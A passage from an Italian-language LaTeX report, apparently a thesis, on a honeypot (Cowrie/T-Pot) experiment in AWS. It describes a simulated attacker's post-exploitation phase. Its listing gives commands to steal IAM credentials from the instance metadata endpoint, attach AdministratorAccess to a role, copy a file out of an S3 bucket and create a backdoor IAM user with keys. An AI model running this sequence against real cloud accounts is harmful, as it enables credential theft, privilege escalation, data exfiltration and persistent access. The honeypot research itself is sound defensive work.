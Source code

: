 \subsubsection{Fase 3: Post-Sfruttamento, Escalation e Movimento Laterale}
Questa è la fase più critica dell'esperimento, in cui abbiamo eseguito le azioni tipiche di un attaccante che, dopo aver ottenuto un punto d'appoggio (\textit{foothold}), tenta di comprendere l'ambiente, scalare i privilegi e accedere a dati sensibili. I comandi eseguiti all'interno della shell Cowrie sono stati ispirati dalle tecniche di post-exploitation descritte nella letteratura specifica per AWS e sono stati effettivamente lanciati durante il test.
\begin{lstlisting}[caption={Comandi simulati nella fase di post-sfruttamento}, label=lst:post_exploit_aws]
# 1. Enumerazione dell'ambiente e identita'
whoami
uname -a
# Tentativo di scoprire se si e' in un ambiente AWS e rubare le credenziali
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 2. Tentativo di Escalation dei Privilegi (con credenziali fittizie)
# Si ipotizza che il ruolo ottenuto abbia la permission iam:AttachRolePolicy.
# L'attaccante tenta di assegnare privilegi di amministratore al proprio ruolo.
# (Nota: questo comando fallirebbe, ma l'honeypot ne registrerebbe il tentativo)
aws iam attach-role-policy --role-name Finanz-Tpot-Role --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

# 3. Tentativo di Movimento Laterale e Esfiltrazione Dati
# L'attaccante cerca bucket S3 accessibili
aws s3 ls
# Tenta di scaricare un file da un bucket che sembra interessante
aws s3 cp s3://finanz-documents-prod/quarterly-report.pdf .

# 4. Tentativo di creare una backdoor per la persistenza
# L'attaccante prova a creare un nuovo utente IAM con le proprie chiavi
aws iam create-user --user-name backdoor_user
aws iam create-access-key --user-name backdoor_user
\end{lstlisting}

